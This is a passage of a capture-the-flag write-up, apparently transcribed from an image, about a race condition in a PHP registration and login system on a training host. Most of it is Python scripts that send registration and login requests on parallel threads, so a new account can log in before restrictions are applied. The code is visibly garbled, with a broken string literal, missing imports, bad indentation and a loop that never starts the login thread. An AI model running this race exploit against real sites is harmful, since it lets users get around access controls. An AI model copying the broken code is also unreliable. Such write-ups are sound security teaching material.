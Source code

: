 ```php
	?>
	<h2>SUCCESS!</h2>
	<?php
	}
```

And we need to make registration and login happen at the same time in order to be able to login before that `INSERT into privs (userid, isRestricted) values ((select users.id from users where username='$username'), TRUE);` gets executed.

#### Toolkit

Best python library for handling HTTP requests, hands down. We'll use it for this challenge, since both the login and registration functions are POST requests. To look at requests we could use chrome developer tools or wireshark since HTTP requests are in clear.

#### Approach

First approach: we can try making the registration and the login happen at the same time. This will not work:

```python
import requests
def registration(user, password):
  url = "%s/register.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password})
  if '"SUCCESS!" "SUCCESS!" in r.text:
      return True
  return False 

def login(user, password):
  url = "%s/login.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password}) 
  print(r.text) 

registration('qweqwe','qweqwe')
login('qweqwe','qweqwe') 
```

Since the login is not fast enough. We need a multi-threading library.

```python
import threading, requests
HOST = "http://aart.training.jinblack.it" 
def randomString(N):
  return ''.join(random.choices(string.ascii_uppercase + string.ascii_lowercase + string.digits, k=N)) 

def registration(user, password):
  url = "%s/register.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password})
  if "SUCCESS!" in r.text:
    return True
  return False 

def login(user, password):
  url = "%s/login.php" % HOST
    r = requests.post(url, data={'username': user, 'password': password})
  print(r.text) 

  while True:
    username = randomString(10)
    password = randomString(10)
    r = threading.Thread(target=registration, args=(username, password))
    l = threading.Thread(target=login, args=(username, password))
    r.start()
```